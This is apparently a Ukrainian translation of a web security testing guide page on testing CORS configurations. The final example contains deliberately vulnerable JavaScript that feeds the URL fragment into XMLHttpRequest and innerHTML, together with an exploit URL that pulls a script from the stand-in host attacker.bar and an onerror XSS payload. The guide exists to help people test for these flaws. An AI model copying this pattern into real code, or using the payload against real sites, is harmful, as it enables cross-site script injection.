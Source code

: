 # Тестування міждоменного розподілу ресурсів

## Короткий опис

Міждоменний розподіл ресурсів (CORS) - це механізм, який дозволяє веб-браузеру виконувати міждоменні запити за допомогою API XMLHttpRequest L2 в контрольованому режимі. Раніше API XMLHttpRequest L1 дозволяв надсилати запити тільки в межах одного джерела, оскільки це було обмежено політикою одного джерела.

Запити з перехресним походженням мають заголовок походження, який ідентифікує домен, що ініціює запит, і завжди надсилається на сервер. CORS визначає протокол, який використовується між веб-браузером і сервером, щоб визначити, чи дозволений перехресний запит. Для цього використовуються заголовки HTTP.

Специфікація W3C CORS вимагає, щоб для складних запитів, таких як запити, відмінні від GET або POST, або запити, що використовують облікові дані, заздалегідь надсилався попередній запит OPTIONS, щоб перевірити, чи не матиме тип запиту поганого впливу на дані. Попередній запит перевіряє методи і заголовки, дозволені сервером, і чи дозволені облікові дані. На основі результату запиту OPTIONS браузер вирішує, чи дозволений запит чи ні.

### Origin & Access-Control-Allow-Origin

Заголовок походження завжди надсилається браузером у CORS-запиті і вказує на походження запиту. Заголовок походження не може бути змінений з JavaScript, однак покладатися на цей заголовок для перевірки контролю доступу - не найкраща ідея, оскільки він може бути підроблений за межами браузера, тому вам все одно потрібно перевірити, чи використовуються протоколи на рівні додатків для захисту конфіденційних даних.

Access-Control-Allow-Origin - це заголовок відповіді, який використовується сервером, щоб вказати, яким доменам дозволено читати відповідь. Відповідно до специфікації CORS W3, клієнт сам визначає і застосовує обмеження на доступ до даних відповіді на основі цього заголовка.

З точки зору тестування на проникнення вам слід шукати небезпечні конфігурації, наприклад, використання символу * в якості значення заголовка Access-Control-Allow-Origin, що означає, що дозволені всі домени. Іншим небезпечним прикладом є ситуація, коли сервер повертає заголовок походження без будь-яких додаткових перевірок, що може призвести до доступу до конфіденційних даних. Зауважте, що така конфігурація є дуже небезпечною і не є прийнятною в загальному випадку, за винятком публічного API, який має бути доступним для всіх.

### Метод контролю доступу-запиту та метод контролю доступу-дозволу

Заголовок Access-Control-Request-Method використовується, коли браузер виконує попередній запит OPTIONS і дозволяє клієнту вказати метод остаточного запиту. З іншого боку, Access-Control-Allow-Method - це заголовок відповіді, який використовується сервером для опису методів, які дозволено використовувати клієнтам.

### Заголовки Access-Control-Request-Headers та Access-Control-Allow-Headers

Ці два заголовки використовуються між браузером і сервером, щоб визначити, які заголовки можуть бути використані для виконання перехресного запиту.

### Access-Control-Allow-Credentials

Цей заголовок у складі попереднього запиту вказує на те, що остаточний запит може містити облікові дані користувача.

### Перевірка вхідних даних

XMLHttpRequest L2 (або XHR L2) надає можливість створювати міждоменні запити за допомогою XHR API для забезпечення зворотної сумісності. Це може призвести до появи уразливостей в безпеці, яких не було в XHR L1. Цікавими місцями коду, які можуть бути використані, є URL-адреси, які передаються в XMLHttpRequest без перевірки, особливо якщо дозволені абсолютні URL-адреси, оскільки це може призвести до впровадження коду. Аналогічно, інша частина програми може бути використана, якщо дані у відповідь не екрануються, і ми можемо контролювати їх, надаючи користувачеві вхідні дані.

### Інші заголовки

Є й інші заголовки, такі як Access-Control-Max-Age, який визначає час, протягом якого попередній запит може кешуватися в браузері, або Access-Control-Expose-Headers, який вказує, які заголовки безпечно передавати API специфікації CORS API, обидва є заголовками відповіді, визначеними в документі CORS W3C.

## Цілі тестування

1. Визначити точки доступу, які реалізують CORS.
2. Переконатися, що конфігурація CORS є безпечною або безпечною для використання.

## Як тестувати

Інструмент, такий як ZAP, може допомогти тестувальникам перехоплювати HTTP-заголовки, які можуть розкрити, як використовується CORS. Тестувальники повинні звертати особливу увагу на заголовок `origin`, щоб дізнатися, які домени допускаються. Також потрібно ручна перевірка JavaScript, щоб визначити, чи існує вразливість щодо внесення коду через неправильну обробку введених користувачем даних. Нижче наведено деякі приклади:

### Приклад 1: Небезпечна відповідь зі значенням * у Access-Control-Allow-Origin
Запит до http://attacker.bar/test.php (зверніть увагу на заголовок `origin`):

GET /test.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/CORSexample1.html
Origin: http://example.foo
Connection: keep-alive

Відповідь (зверніть увагу на заголовок `Access-Control-Allow-Origin`):

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Вміст відповіді]

### Приклад 2: Проблема валідації введення: XSS з CORS
Цей код робить запит до ресурсу, переданого після символу `#` в URL, спочатку використовувався для отримання ресурсів на тому ж сервері.

Вразливий код:

<script>
    var req = new XMLHttpRequest();

    req.onreadystatechange = function() {
        if(req.readyState==4 && req.status==200) {
            document.getElementById("div1").innerHTML=req.responseText;
        }
    }

    var resource = location.hash.substring(1);
    req.open("GET",resource,true);
    req.send();
</script>

<body>
    <div id="div1"></div>
</body>

Наприклад, запит, подібний до цього, відображатиме вміст файлу profile.php:

http://example.foo/main.php#profile.php

Запит та відповідь, згенеровані http://example.foo/profile.php:

GET /profile.php HTTP/1.1
Host: example.foo
[...]
Referer: http://example.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[Вміст відповіді]

Тепер, оскільки відсутня перевірка URL, ми можемо впровадити віддалений скрипт, який буде впроваджений та виконуваний в контексті домену example.foo, за допомогою URL, подібного до цього:

http://example.foo/main.php#http://attacker.bar/file.php

Запит та відповідь, згенеровані http://attacker.bar/file.php:

GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://example.foo/main.php
origin: http://example.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Впроваджений вміст від attacker.bar <img src="#" onerror="alert('Домен: '+document.domain)">
